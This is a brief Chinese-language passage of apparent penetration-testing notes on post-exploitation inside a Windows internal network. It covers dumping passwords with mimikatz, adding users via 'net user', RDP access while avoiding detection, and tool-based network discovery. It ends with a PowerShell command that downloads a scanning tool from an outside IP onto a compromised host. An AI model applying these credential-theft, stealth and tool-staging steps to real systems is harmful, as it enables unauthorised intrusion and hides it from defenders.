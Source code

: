 # 内网渗透

---

## 远程登录

拿到 shell 之后需要登录的话可以用 `mimikatz` 之类的工具尝试获取主机密码, 如果能拿到明文密码的话就能够远程登录了

或者用 `net user` 命令创建新用户来进行登录(不过相比直接拿原有账密的密码而言, 这种操作太容易被发现了(⊙x⊙;))

- 选择合适的实际直接 RDP 过去是一种可行的方案, 不过默认情况下 Windows 只允许一个用户通过远程桌面连接登录, 如果挤掉了其他远程连接用户的话那么就被发现了

  > Win7 下拿到 shell 之后似乎可以通过在命令行中通过修改系统注册表来实现
  >
  > [How to enable multiple logon remote desktop in Windows 7 - Super User](https://superuser.com/questions/64171/how-to-enable-multiple-logon-remote-desktop-in-windows-7)

- Telnet

- SSH

- Powershell Remoting

- 第三方远程工具, 如 TeamViewer, VNC, PC Anywhere

> 除了 RDP 这一常用功能外, 其他的工具都或多或少需要在远控主机上进行相应的配置, 容易留下痕迹, 因此按下不表

---

## 内网信息收集

走代理扫描容易丢包, 推荐将扫描工具上传后扫描

---

### netspy

> netspy是一款快速探测内网可达网段工具(深信服深蓝实验室天威战队强力驱动) 

可以在 [Releases · shmilylty/netspy (github.com)](https://github.com/shmilylty/netspy/releases) 下载可执行文件压缩包


```
iwr -Uri http://100.1.1.138:8000/download/netspy.exe -OutFile netspy.exe
```


